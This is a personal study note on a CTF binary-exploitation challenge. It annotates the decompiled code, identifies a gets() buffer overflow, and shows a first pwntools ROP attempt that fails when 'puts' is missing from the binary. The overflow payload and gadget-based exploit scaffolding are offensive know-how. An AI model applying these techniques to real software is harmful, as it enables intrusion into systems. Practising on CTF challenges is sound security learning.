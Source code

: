 # `close(1)` `close (2)` 
In c, the above closes {{file descriptors}}
- file descriptor 1 is {{stdout}}
- file descriptor 2 is {{stderr}}
After the above calls, the program {{won't be able to output anything}}


# `alarm(0x3Cu)`
sets a timer that will send a SIGALRM signal after 60 seconds (0x3C in hex = 60 in decimal):
- This is common in CTF challenges to prevent programs from {{running indefinitely}}
- If your exploit takes longer than 60 seconds, the program will {{terminate}}
- The `return` value is the number of seconds {{previously remaining}} in any already set alarm

# `init(argc, argv, envp);` 
Calls the initialization function with the main program's parameters:
- `argc`: argument count
- `argv`: array of argument strings
- `envp`: array of environment variables
Inside this init function, it's:
- Disabling buffering for stdin, stdout, and stderr using `setvbuf`
- Setting the alarm timer mentioned above

Looking at the code overall, this appears to be a classic buffer overflow challenge - the `gets(v1)` function is vulnerable to buffer overflow since it doesn't check input length, and the buffer `v1` is only 112 bytes long.


# Attempt 1
```py
from pwn import * 

binary = "./chall"
p = process(binary) 
elf = ELF(binary)
s = '''
b * vuln+50
'''
gdb.attach(p, s)
pause()
pop_rdi = 0x00000000004012c3
payload = flat(
    b'A' * 0x70, # reaches old rbp
    b'B' * 8, # rewriting the old rbp
    pop_rdi
    #elf.got['puts']
    #elf.plt['puts']
)
p.sendline(payload)
p.interactive()
```
## Main problem
the binary does not have puts, and many other libc function loaded, we can't leak shit
```
Traceback (most recent call last):
  File "/home/kali/Desktop/CTF/rop-revenge_hkcert2023/solve.py", line 16, in <module>
    elf.got['puts']s
    ~~~~~~~^^^^^^^^
  File "/usr/local/lib/python3.12/dist-packages/pwnlib/elf/elf.py", line 164, in __missing__
    raise KeyError(name)
KeyError: 'puts'
[*] Stopped process './chall' (pid 5708)
```
